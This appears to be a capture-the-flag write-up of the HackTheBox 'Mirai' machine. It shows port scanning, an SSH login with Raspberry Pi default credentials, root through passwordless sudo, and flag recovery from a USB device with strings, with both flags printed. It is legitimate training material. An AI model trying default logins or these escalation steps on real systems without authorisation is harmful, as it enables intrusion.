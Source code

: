 # HackTheBox: [Mirai](https://app.hackthebox.com/machines/Mirai)

## Enumeration

```console
$ nmap -n -sCV -T4 -p1-65535 -v $t
[...]
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open     domain      dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp    open     http        lighttpd 1.4.35
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
388/tcp   filtered unidata-ldm
1728/tcp  open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
20850/tcp filtered unknown
25173/tcp filtered unknown
32400/tcp open     http        Plex Media Server httpd
|_http-favicon: Plex
|_http-title: Unauthorized
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
32469/tcp open     upnp        Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
37158/tcp filtered unknown
62763/tcp filtered unknown
62807/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

Looks like [Pi-hole](https://en.wikipedia.org/wiki/Pi-hole) on port 80, judging by the HTTP header:

```console
$ curl -Lsi http://$t
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Tue, 03 Oct 2023 22:42:24 GMT
Server: lighttpd/1.4.35
```

## Exploitation

I can infer that Pi-hole is running on a Raspberry Pi device, probably [Raspbian](https://www.raspbian.org/).

I try the default credentials of `pi:raspberry`:

```console
$ ssh pi@$t
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
ff8377[...]
```

## Privilege Escalation

`sudo` is wide open for the user `pi`:

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~ $ sudo -i
[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

root@raspberrypi:~# 
```

The usual `root.txt` file drops a big hint:

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

And the USB filesystem contains another hint:

```console
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Running `strings` on the USB device file reveals the `root` flag:

```console
root@raspberrypi:/tmp# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
